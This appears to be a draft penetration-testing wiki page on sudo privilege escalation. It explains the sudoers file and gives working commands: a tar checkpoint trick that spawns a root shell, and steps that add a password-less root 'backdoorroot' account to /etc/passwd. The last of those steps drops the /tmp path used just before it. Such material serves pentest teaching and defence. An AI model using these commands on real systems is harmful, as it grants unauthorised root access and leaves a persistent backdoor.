

# 🛠️ SUDO


**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name


## Theory

`sudo` \(Super User DO\) is a program for UNIX-like computer operating systems that allows users to run programs with the security privileges of another user \(by default, the superuser\).

Unlike the similar command `su`, users must, by default, supply their own password for authentication, rather than the password of the target user. After authentication, and if the configuration file, which is typically located at `/etc/sudoers`, permits the user access, the system invokes the requested command with the target user's privileges.

Sudo users are called sudoers \( 😯_I know right_🧠 \). What sudoers are allowed to do is defined in the `/etc/sudoers` configuration file. This file, owned by `root`, is supposed to be 440 \(read-only\) and should only be edited with `visudo`, `sudoedit` or `sudo -e`.



## Practice

There are many ways to escalate privileges by exploiting `sudo`, either by profiting from insecure misconfiguration, or by exploiting the program's vulnerabilities.

### Configuration

#### Default permissions

The `sudo -l` command can be run by sudoers to check their sudo rights. The output reflects the `/etc/sudoers` configuration that applies to the user. It should like the following \(default config for a new sudoer\).

```bash
# Format is
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) ALL
```

For instance, this configuration allows the `johnthesudoer` user to run any privileged command as long as `johnthesudoer`'s password is known. A privileged session can be obtained with `sudo -i`, `sudo -s`, `sudo su` or `sudo <program>`.

#### Living off the land

While, the configuration can be hardened to restrict privileged execution to specific program, there are some that can be abused to bypass local security restrictions. This is called [Living off the land](living-off-the-land.md).

```bash
User johnthesudoer may run the following commands on johncomputer:
    (ALL : ALL) /bin/tar
```

The configuration above only allows sudoer `johnthesudoer` to execute `/bin/tar` as root as long as `johnthesudoer`'s password is known. The thing is tar is program that can be used to obtain a full session, hence bypassing the restrictions induced by sudoers configuration.

```bash
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

Other examples can be found on the [Living off the land](living-off-the-land.md) note.

#### Escalation tricks

While some programs can be used to obtain a full shell, others can be used to induce changes on the system to grant root privileges, like `/usr/bin/cp`. The following commands are used to edit the `/etc/passwd` file to add a password-less user with `root`'s uid and gid.

```bash
cp /etc/passwd /tmp/passwd.bak
echo "backdoorroot::0:0:Backdoor root:/root:/bin/bash" >> /tmp/passwd.bak
sudo /usr/bin/cp passwd.bak /etc/passwd
su -l backdoorroot
```

### Vulnerabilities

#### CVE-2019-14287

//TODO

#### CVE-2021-3156

//TODO

## References



